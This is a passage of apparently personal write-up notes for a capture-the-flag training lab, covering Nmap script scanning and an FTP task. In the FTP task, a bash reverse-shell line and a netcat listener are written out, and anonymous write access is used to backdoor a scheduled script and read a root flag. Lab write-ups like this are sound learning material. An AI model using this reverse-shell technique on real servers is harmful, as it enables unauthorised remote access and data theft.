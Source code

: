 6.  **Qus :** Use Nmap's Network Scripting Engine (NSE) to retrieve the "HTTP-TITLE" of the webserver. Based on the value returned, what do we think this website might be used for? - blog 
    
    **Ans :** used `sudo nmap -sC -sV <ip>`

7.  **Qus :** Now use different scripts against the remaining services to discover any further information about them.

***NOTE***

See more : `Supply Chain Exploit`, IDS, IPS

----

## Day 9 - Anyone can be Santa! [FTP]

1.  `ftp 10.10.143.226` - username : `anonymous`

2.  `get public/backup.sh`

3.  to get a reverse shell on bash tcp added a line to the executable:
    `bash -i >& /dev/tcp/<my-ip>/4242 0>&1`
    
4.  listen for incomming traffic using netcat:
    `nc -lvnp 4242`
    
5.  upload the edited file in the same dir using `put`

6.  got a reverse shell back on the netcat listner. cat paste the `flag.txt`
    
### Challenges Ans

1.  **Qus :** Name the directory on the FTP server that has data accessible by the "anonymous" user 

    **Ans :** Login with `ftp 10.10.143.226` - username : `anonymous`.

    list all directories use `ls -la` 

    now use `ls dir_name` replace the `dir_name` with the directory names found with the previous command, it will deny to execute if you dont havr permission. 
    
2.  **Qus :** What script gets executed within this directory?

    **Ans :** look for files with extention `*.sh`

3.  **Qus :** What movie did Santa have on his Christmas shopping list? 

    **Ans :** see the contents of the `*.txt` file. in the pubilc folder

4.  **Qus :** Re-upload this script to contain malicious data (just like we did in section 9.6. Output the contents of /root/flag.txt!

    Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.
    
    **Ans :** download the `backup.sh` with `get backup.sh`

    edit the executable file and add the line `bash -i >& /dev/tcp/Your_tun0_IP/4444 0>&1`

    in your terminal listen for port 4444 with `sudo nc -lvnp 4444` to get the reverse shell 
